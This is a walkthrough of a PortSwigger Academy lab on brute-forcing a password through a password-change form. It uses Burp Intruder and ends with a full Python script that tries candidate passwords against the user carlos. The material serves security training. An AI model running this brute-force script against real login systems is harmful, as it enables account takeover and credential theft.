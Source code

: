 # Lab Password brute-force via password change

Objective:
This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page. 

Your credentials: wiener:peter
Victim's username: carlos 

Start by logging in to wiener:peter

![[Pasted image 20210921181248.png]]

This opens a new page where I can reset wiener's credentials

I will reset wiener's password to "password123!" and intercept the request 

![[Pasted image 20210921181734.png]]

Notice that this POST request contains a username field. This that we can send this request to carlos and if we can guess the password, it will change his password. 

We need to do some more testing. 

When I enter the incorrect password and different new password values, I get "Current password is incorrect"

![[Pasted image 20210921192049.png]]

When I enter the password correct, and the new password correct, the password gets successfully reset 

When I enter the current password correct, and the new password incorrect, I get "New passwords do not match"

![[Pasted image 20210921192209.png]]

This is good, I will send one of the requests to intruder. The goal is to try and get the "New passwords do not match" error for the carlos user. If we can get this error it means that we are able to determine carlos's password 


Burp Intruder can be used to test different payloads on the same page.

I sent one of the password resets to intruder and set the target position on the current-password value. This is where the payloads will rotate.

![[Pasted image 20210921192840.png]]

I loaded the password list as the payload

![[Pasted image 20210921192627.png]]

Added the grep option to check values that contain "New passwords do not match"

I started the attack.

![[Pasted image 20210921193547.png]]

the password of "austin" returned the "New passwords do not match error"

This means we were able to determine password the password of the carlos user throught hte password reset function.



I restarted the lab and wrote a python script to do the same attack 


![[Pasted image 20210921202329.png]]


![[Pasted image 20210921202318.png]]

![[Pasted image 20210921202259.png]]

`
		'''
This script is used to complete the "Password brute-force via password change" PortSwigger academy lab. I have the credential's of user wiener. There is a vulnerability in the password reset function which allows me to determine the passwords of other users

'''

import sys 
import urllib
import urllib3
import requests
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def passBrute(cookie2,url):
	
	with open("passwords.txt","r") as passwords:
		passwords = passwords.readlines()
		
		for password in passwords:
			password = password[:-1]

			cookies = {"session": cookie2}
			data = {"username": "carlos", 
			"current-password": password, 
			"new-password-1": "wrongPass1",
			"new-password-2": "wrongPass232"}

			print("(+) Testing password {}".format(password))
			p = requests.post(url +"/my-account/change-password", data=data,cookies=cookies,proxies=proxies,verify=False)

			if "New passwords do not match" in p.content:
				print("(+)The password of {} worked on Carlos!".format(password))
				exit()

def getSecondCookie(url,p):
	cookie2 = re.findall("[A-Za-z0-9]{32}",str(p.headers))[0]
	passBrute(cookie2,url)

def login(url,cookie1):
	data = {"username": "wiener" , "password": "peter" }
	cookies ={"session": cookie1}
	p = requests.post(url + "/login", data=data, cookies=cookies,verify=False, allow_redirects=False, proxies=proxies)
	getSecondCookie(url,p)

def getFirstCookie(url):
	r = requests.get(url + "/login", verify=False, proxies=proxies)
	cookie1 = re.findall("[A-Za-z0-9]{32}",str(r.headers))[0] 
	login(url,cookie1)

def main():

	if len(sys.argv) != 2:
		print("(+) Incorrect number of arguments")
		print("(+) Example: {} test.com".format(sys.argv[0]))

	else:
		url = sys.argv[1]
		getFirstCookie(url) 

if __name__ == "__main__":

	main()

`